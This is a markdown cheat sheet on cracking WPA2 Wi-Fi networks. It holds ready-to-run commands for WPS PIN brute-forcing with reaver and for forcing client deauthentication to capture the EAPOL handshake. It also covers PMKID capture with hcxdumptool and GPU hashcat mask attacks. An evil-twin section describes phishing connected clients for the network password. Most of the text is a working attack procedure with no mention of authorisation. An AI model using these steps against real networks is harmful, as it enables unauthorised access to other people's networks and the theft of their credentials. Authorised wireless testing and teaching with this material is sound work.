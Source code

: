 #cracking #wifi #wpa2 #eapol #4wayhandshake #pmkid

# Hardware: network devices

Recommanded by aircrack for good performances and linux compatibility (work out of the box)
**ALFA AWUS036ACM**
> https://www.amazon.fr/Alfa-AWUS036ACM/dp/B08BJS8FXD

See also : [david bombal video comparing network adapters](https://www.youtube.com/watch?v=5MOsY3VNLK8)

# Evil-twin

Create a new fake access point with the same name as the target router and contentiously disconnect client from the target
when the clients are fed up they will connect to your access point and then you present them with a phishing page to ask them for the wifi password:
- https://github.com/FluxionNetwork/fluxion
- https://github.com/v1s1t0r1sh3r3/airgeddon

# Brute-forcing WPS
The WPS pin can be brute-forced using [reaver](https://github.com/t6x/reaver-wps-fork-t6x)

```bash
reaver -i <monitor_interface> -b <BSSID> -vv # -vv is just for verbosity
# example
reaver -i wlan1mon -b 34:DB:9C:41:44:60 -vv
```

# Capturing the 4 way handshake (EAPOL)

The 4 way handshake is composed of 4 packets based on the EAPOL protocol, exchanged between the router and the client to allow authentication
If a client connect to the router while the attacker is monitoring the network, the attacker would be able to capture the 4 way handshake and crack it locally to retrieve the wpa password
But we are not going to wait for a customer to connect by himself, we can force deauthentication of a client and wait for it's re-connection

> source : https://www.youtube.com/watch?v=WfYxrLaqlN8

```bash
# check your interfaces
ip a
iwconfig

# kill services that can interfer
sudo airmon-ng check kill

# put an interface into monitor mode
sudo airmon-ng start wlan0
sudo airmon-ng # notice the new interface wlan0mon

# discover access point (recon)
sudo airodump-ng wlan0mon # keep the channel and bssid (mac addr) of the target network
sudo airodump-ng wlan0mon -d 90:9A:4A:B8:F3:FB # focus on a specific access point

# capture traffic of a specific bssid
sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon # -c for channel and -w for the file where we store the capture

# deauthenticate clients from the network
# do it in another window, while monitoring the traffic with airodump
sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon # -deauth 0 means infinite deauthentication

# a new hack1-01.cap result from your airodump-ng capture, you can open this .cap file with wireshark and filter on "eapol" protocol, if evert thing worked correctly, you should see a 4 way handshake

# restoring managed mode
sudo airmon-ng stop wlan0mon

# restoring service
sudo systemctl start wpa_supplicant
sudo systemctl start NetworkManager
```

# Capturing the PMKID

The PMKID is another hash used by WPA2 that you can try to crack, this time you don't need to have client already connected to the access point and disconnect them while monitoring the traffic
Since hashcat v6.0, you can also combine PMKID and EAPOL in a new format : 22000
This one is more efficient than the older format

> [!quote]+ As explained [here](https://www.cyberark.com/resources/threat-research-blog/cracking-wifi-at-scale-with-one-simple-trick)
>
> PMKID is a hash that is used for roaming capabilities between APs. The legitimate use of PMKID is, however, of little relevance for the scope of this blog. Frankly, it makes little sense to enable it on routers for personal/private use (WPA2-personal), as usually there is no need for roaming in a personal network.

This method use hashcat format 22000, from a cracking point of view, having all the handshake types in a single file, makes it much more efficient

```bash 
# based on documentation: https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2
# you will need 3 tools:
# - hcxdumptool (for capture) it's better to install the latest version from github : https://github.com/ZerBea/hcxdumptool
# - hcxpcapngtool from hcxtools v6.0.0 or higher (for conversion) https://github.com/ZerBea/hcxtools
# - hashcat v6.0.0 or higher (for cracking)
# david bombal ref video : https://www.youtube.com/watch?v=Usw0IlGbkC4

# Stop services that could interfer
sudo systemctl stop NetworkManager
sudo systemctl stop wpa_supplicant
# capturing traffic
sudo hcxdumptool -i wlan0 -o dumpfile.pcapng --active_beacon --enable_status=15
# get bssid of the target router (first column on the left)
sudo hcxdumptool --do_rcascan -i wlan0 # you need the bssid to filter the hashes
# You can restart your services
sudo systemctl start NetworkManager
sudo systemctl start wpa_supplicant
# convert pcapng file to a format that hashcat understand
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng # -E dump the list of essid contained in the pcap and store them in essidlist
# now filter hash.hc22000 to keep only the hash with the bssid that match the target router bssid, a grep should be sufficient

# now crack the hash !
```

# Cracking (with GPU)

## Preparing a cracking instance

- List available hashcat backends (cpu/gpu available to use) : `hashcat -I`
- Installing Nvidia Cuda
    - ref: https://youtu.be/nHDixd-EdEQ?t=545
    - doc: https://www.linode.com/docs/products/compute/compute-instances/guides/install-nvidia-cuda/
    - nvidia toolkit download page: https://developer.nvidia.com/cuda-downloads
- Reboot the server after installation and ssh again
- Check again `hashcat -I` and check nvidia drivers + devices with `nvidia-smi`

### Automated a ready to go linode instance
- This script is only for debian 11 (x86_64) linode instances with nvidia gpus (updated in 2023)
- Run this script as root in bash

```bash
apt update && apt upgrade
apt install build-essential linux-headers-$(uname -r)
wget https://developer.download.nvidia.com/compute/cuda/12.1.1/local_installers/cuda-repo-debian11-12-1-local_12.1.1-530.30.02-1_amd64.deb
dpkg -i cuda-repo-debian11-12-1-local_12.1.1-530.30.02-1_amd64.deb
cp /var/cuda-repo-debian11-12-1-local/cuda-*-keyring.gpg /usr/share/keyrings/
add-apt-repository contrib
apt-get update
apt-get -y install cuda
reboot now
```

### Selecting devices to crack

```bash
# first check hashcat access to available devices
hashcat -I
# select devices by IDs
#  -d, --backend-devices          | Str  | Backend devices to use, separated with commas        | -d 1   
hashcat [...] -d 6,7,8,9
```

### Hashcat command

```bash
# example
hashcat -m 22000 8-digit-wpa2.hc22000 -a 3 ?d?d?d?d?d?d?d?d -d 6,7,8,9 -w 4

# -a 3 => means brute force attack followed by the mask_attack => https://hashcat.net/wiki/doku.php?id=mask_attack
# -w 4 => check workload Profile, this means power consumption, -w 4 is the highest (nightmare)

# cracking a range (pass containing digits only, from 8 to 18)
hashcat -m 22000 10-digit-wpa2.hc22000 -a 3 --increment --increment-min 8 --increment-max 18 ?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d?d -d 6,7,8,9 -w 4

# cracking a range (pass containing digits, lowercase and uppercase, from 10 to 12)
hashcat -m 22000 10-digit-letters-wpa2.hc22000 --increment --increment-min 10 --increment-max 12 -1 ?d?l?u -a 3 ?1?1?1?1?1?1?1?1?1?1?1?1 -d 6,7,8,9 -w 4
# -1 ?d?l?u => we create a custom charset composed of digits, lowercase and uppercase and we use it in the mask_attack
# see attack_mask documentation for more informations


# using a wordlist
hashcat -m 22000 hash.hc22000 wordlist.txt
```

### Aircrack command

```bash
aircrack-ng hack1-01.cap -w wordlist.txt
```

---

sources:
- https://www.youtube.com/watch?v=nHDixd-EdEQ
- https://www.youtube.com/watch?v=Usw0IlGbkC4
- https://www.youtube.com/watch?v=5MOsY3VNLK8
- https://www.youtube.com/watch?v=WfYxrLaqlN8
- https://hashcat.net/wiki/doku.php?id=mask_attack
- https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2
